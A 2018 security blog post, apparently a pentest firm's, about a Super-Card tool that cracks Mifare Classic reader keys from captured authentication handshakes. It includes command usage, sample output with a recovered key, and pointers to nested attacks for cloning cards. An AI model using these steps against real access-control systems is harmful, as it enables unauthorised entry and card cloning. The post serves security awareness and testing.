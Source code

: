 ```yaml
---
layout: post
title:  "Cracking Mifare with the Super-Card"
date:   2018-05-17 13:49:33 +0000
tags: [RFID, hardware, pentest, redteam, blueteam]
---
```

_Alternatively called Proxmark-Card, Sniffer-Card, or Suppa Card_

![](/blog/assets/RFID_reader.jpeg)

The program below is an interface to the Mifare Super (Suppa/Supper) Card utilising the libnfc 1.7.1 library (probably now outdated as this program was written in early 2014).

Why release now…. Many super-card card programs are either broken / wrong type / or written in Chinese. This is a simple English (or American) Language program to facilitate non-Chinese users, and released as Open Source so that the content can be analysed and confirmed to be true to purpose and non-malicious if you do not trust it?

This program has been tested successfully on the USB ACR-122U reader on the following operating systems:
* WinXP (32bit) SP0/1/2/3
* Vista (32bit) SP0/1/2

**Note**: From Windows 7+ Microsoft changed the way smartcard drivers operate, and I havnt figured out how to support the later versions of Windows.

The program has two modes read & write, these operations are detailed below…

The attack is based off the collection of two cryptographic handshakes (based off the Mifare UID) we can then use the crypto1 algorithm to discover one key used to access the particular Mifare sector; other attacks can then be performed to access and clone an entire card.

Code: [https://github.com/netscylla/super-card](https://github.com/netscylla/super-card)

## Where to buy a Super Card?
I sourced mine for a reasonable price from an RFID tech-friend (he used http://www.taobao.com). You can source them from other places but I believe the price can often be jacked up considerably, and delivery is unreliable. So sourcing them can be a challenge!

## Super-card Usage
### Set a UID
Using the ‘-w’ flag set a 4-byte (8 hex chars) UID
```
$ nfc-super.exe -w 22334455
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 11 22 33 44
 SAK (SEL_RES): 08
```
## Operation
Place the card onto a Mifare reader, and ensure you obtain two or more (2+) failed authentication attempts — normally observed by flashing lights on the reader, or wait 6–10 secs.

## Obtain data and crack key
Place the super-card on your reader (we use an old and reliable USB ACR-122U), launch the program with the ‘-r’ flag, and the program should automatically obtain the necessary values and crack the reader key.
```
$ nfc-super.exe -r
Mifare Super Card v0.1 ©2014 Andy
ISO/IEC 14443A (106 kbps) target:
 ATQA (SENS_RES): 00 04
 UID (NFCID1): 22 33 44 55
 SAK (SEL_RES): 08
 UID: 22 33 44 55
1:NR: c9 6f 2e a5
1:AR: 71 67 3d 4d
2:NR: 38 aa fa ba
2:AR: 5d 32 cd f4
Cracking…
Found Key: [e5b20aeeffff]
```
## Further cracking
Use the Mifare nested attack (or mfoc.exe) to crack any remaining keys on a genuine card.

## Disclaimer
Netscylla or its staff cannot be held responsible for any abuse relating from this blog post. This post is to raise awareness in the design and security flaws of the Mifare access control systems. It is illegal to attempt unauthorised access on any system you do not personally own, or have explicit permission in writing from the owner! If in doubt contact your local authority or local digital lock-sport community for additional advice.

